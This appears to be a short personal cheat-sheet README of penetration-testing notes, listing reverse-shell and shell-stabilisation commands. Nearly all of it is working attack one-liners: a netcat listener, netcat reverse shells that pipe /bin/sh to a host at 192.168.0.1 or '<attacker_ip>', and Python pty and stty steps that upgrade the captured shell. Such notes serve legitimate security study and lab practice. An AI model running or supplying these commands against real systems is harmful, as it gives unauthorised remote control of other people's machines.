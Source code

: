 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without -e</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```

Elevate/Stabilize Shells:

+ <b>Using Ptyhon</b>
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
$^Z
$stty raw -echo; fg
(ENTER)
```
